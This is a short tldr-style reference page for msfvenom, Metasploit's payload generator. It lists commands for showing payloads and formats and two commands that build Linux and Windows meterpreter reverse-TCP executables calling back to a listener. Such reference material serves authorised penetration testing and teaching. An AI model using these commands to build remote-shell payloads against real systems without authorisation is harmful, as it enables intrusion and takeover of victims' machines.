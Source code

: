 # msfvenom

> Manually generate payloads for metasploit.
> More information: <https://github.com/rapid7/metasploit-framework/wiki/How-to-use-msfvenom>.

- List Payloads:

`msfvenom -l payloads`

- List formats:

`msfvenom -l formats`

- Show payload options:

`msfvenom -p {{payload}} --list-options`

- Create an elf with a reverse tcp handler:

`msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f elf > reverseTcpElf`

- Create an exe with a reverse tcp handler:

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST={{local_ip}} LPORT={{local_port}} -f exe > reverseTcp.exe`

